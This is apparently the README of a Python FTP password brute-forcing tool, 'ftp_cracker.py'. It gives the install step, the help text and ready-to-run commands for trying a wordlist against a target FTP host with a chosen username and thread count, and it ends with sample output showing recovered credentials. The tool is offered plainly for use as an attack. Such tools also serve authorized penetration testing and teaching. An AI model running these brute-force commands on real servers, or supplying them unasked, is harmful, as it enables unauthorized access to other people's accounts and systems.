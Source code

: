 # To run this:
- `pip3 install -r requirements.txt`
- Use `ftp_cracker.py` for fast brute force:
    ```
    python ftp_cracker.py --help
    ```
    **Output:**
    ```
    usage: ftp_cracker.py [-h] [-u USER] [-p PASSLIST] [-t THREADS] host

    FTP Cracker made with Python

    positional arguments:
    host                  The target host or IP address of the FTP server

    optional arguments:
    -h, --help            show this help message and exit
    -u USER, --user USER  The username of target FTP server
    -p PASSLIST, --passlist PASSLIST
                            The path of the pass list
    -t THREADS, --threads THREADS
                            Number of workers to spawn for logining, default is 30
    ```
- If you want to use the wordlist `wordlist.txt` in the current directory against the host `192.168.1.2` (can be domain or private/public IP address) with the user `user`:
    ```
    python ftp_cracker.py 192.168.1.2 -u user -p wordlist.txt
    ```
- You can also tweak the number of threads to spawn (can be faster, default is 30):
    ```
    python ftp_cracker.py 192.168.1.2 -u user -p wordlist.txt --threads 35
    ```
- Output can be something like this:
    ```
    [!] Trying 123456
    [!] Trying 12345
    ...
    [!] Trying sweety
    [!] Trying joseph
    [+] Found credentials:
            Host: 192.168.1.113
            User: test
            Password: abc123
    ```